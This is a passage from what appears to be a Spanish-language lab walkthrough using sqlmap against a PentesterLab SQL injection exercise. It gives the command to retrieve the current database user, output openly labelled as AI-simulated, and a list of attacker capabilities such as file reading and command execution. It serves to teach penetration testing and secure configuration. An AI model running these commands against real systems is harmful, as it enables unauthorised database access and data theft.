 ``` bash
web server:       Apache/2.2.8 (Ubuntu)
description:      MySQL >= 5.0.12 (comment-based and time-based fingerprints matched)

comment injection fingerprint: MySQL 5.0.51
html error message fingerprint: MySQL

[*] ending @ 00:49:30

Database management system: MySQL >= 5.0.12
Database version: 5.0.51
Injection technique(s) confirmed: time-based blind, error-based (heuristic)
```

Nota: esta salida es una simulación creada para ilustrar el resultado esperado y está claramente etiquetada como "Generada con IA". Cuando ejecutes sqlmap en tu entorno, los tiempos, los mensajes y la precisión de la huella (fingerprint) pueden variar según la versión del DBMS y la configuración del servidor.

PASO 5: Comando 2 - Identificar Usuario Actual
Objetivo: Determinar con qué usuario la aplicación se conecta a la base de datos.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" --current-user
```

💡 Explicación:

- --current-user: Extrae el nombre del usuario de la conexión a la BD

📊 Salida esperada:
[00:50:12] [INFO] fetching current user
[00:50:12] [INFO] retrieved: root@localhost
current user: 'root@localhost'
🔍 Análisis:

⚠️ HALLAZGO CRÍTICO: La aplicación se conecta como root, el usuario con máximos privilegios en MySQL.
Implicaciones de seguridad:

- ✅ El atacante puede leer cualquier base de datos
- ✅ El atacante puede modificar cualquier tabla
- ✅ El atacante puede ejecutar comandos del sistema (con UDF)
- ✅ El atacante puede leer archivos del servidor (LOAD_FILE)
🛡️ Buena práctica: La aplicación debería usar un usuario con privilegios mínimos (principio de menor privilegio).

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación creada con IA para mostrar un ejemplo realista de lo que `sqlmap --current-user` podría devolver en este entorno de laboratorio. Está incluida únicamente con fines didácticos y no proviene de una ejecución real.

```text
[00:50:10] [INFO] testing connection to the target URL
[00:50:10] [INFO] testing if the target URL content is stable
[00:50:11] [INFO] target URL content is stable
[00:50:11] [INFO] testing if GET parameter 'id' is dynamic
[00:50:11] [INFO] GET parameter 'id' appears to be dynamic
[00:50:11] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[00:50:12] [INFO] testing 'current user'
[00:50:12] [INFO] fetching current user
[00:50:12] [INFO] retrieved: root@localhost
current user: 'root@localhost'
[*] ending @ 00:50:12
```
